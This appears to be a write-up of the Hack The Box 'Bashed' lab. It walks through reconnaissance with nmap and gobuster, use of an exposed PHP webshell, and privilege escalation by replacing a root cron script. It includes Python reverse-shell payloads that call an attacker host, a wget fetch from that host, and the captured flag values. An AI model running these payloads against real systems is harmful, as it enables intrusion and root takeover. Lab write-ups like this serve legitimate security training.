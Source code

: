 ## Reconnaissance

### nmap 
```
nmap -sV -sC -oA bashed 10.129.228.101
```

![](0.png)
### website

![](1.png)

### Path Enumeration

```
gobuster dir -u http://10.129.228.101 -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

![](2.png)
> The most interesting path is 

```
/dev
```

> Check it 

![](3.png)

> Access following php page
```
phpbash.php
```

![](4.png)

> I got an easy webshell with www-root user

![](5.png)

> Try to read user flag, and I got the flag

![](6.png)

> Get user flag 

``` 
49ab3642b3d19bb69071bb432c30ff89 
```

![](7.png)

### Try to create reverse shell 

> Using the following python reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](8.png)
> Check the nc status, I got the reverse shell 

![](9.png)

> Read user flag
```
49ab3642b3d19bb69071bb432c30ff89
```

![](10.png)
## Post Exploitation 

> With the www-root user, I can get user flag.
> Now I have to get root shell
> First check sudo list to konw what's the command can be execute in this or other user

```
sudo -l
```

> I know there is a user named scriptmanager can be call without password

![](11.png)
> So, chang to it 
``` 
sudo -u scriptmanager /bin/bash
```

![](12.png)

> Using python to beautify the shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![](13.png)

> Check the current user 

```
id
```

![](14.png)

> So, the current user is scriptmanager now.
> Let's find out what kind of directory or file is own by this user 
> The most special results 

 1. ```/script/test.py```

```
find / -type f -user scriptmanager -group scriptmanager 2>/dev/null; find / -typd d -user scriptmanager -group scriptmanager 2>/dev/null
```

![](15.png)

> Check script directory, 2 files
1. test.py
2. test.txt

![](16.png)

> Check test file content

```
testing 123!
```

![](17.png)

> Check test python file 

```
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```
> It will open test file and write "testing 123!" into it.

![](18.png)

> And about the metadata on these 2 files
> I know the test file is own by root and the date is keeping changing to latest one.
> but it is created by test python, so, I think there might be a cron job to execute the python file.
> And the execute operation user is root.

![](19.png)

> So if I can replace the origin python file to malicious one.
> The cron job will execute it with root user.
> Then I can create a reverse shell as root use.
> So, create a malicious python file first.

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.17.145",1336))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

![](20.png)

> Create a simple http server in attack host

```
python3 -m http.server 9797
```

> Using wget to download it from attack host to victim site.

```
wget http://10.10.17.145:9797/test.py
```

![](21.png)

> Change the origin test python file name.

```
mv test.py test.py.2
mv test.py.1 test.py
```

![](22.png)

> Check the nc status, it will get reverse shell

![](23.png)

> Get root flag : 

``` 
74e298468046bdbdaa318f203a60b06c
```

![](24.png)

## Reference 

- [(writeup)Hack The Box – Bashed Walkthrough](https://steflan-security.com/hack-the-box-bashed-walkthrough/)
- [Linux: Find command](https://www.cyberciti.biz/faq/how-do-i-find-all-the-files-owned-by-a-particular-user-or-group/)
- [Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

![](25.png)

###### tags: `HackTheBox` `PHP` `Easy` `bashed` `reverse shell` `linux`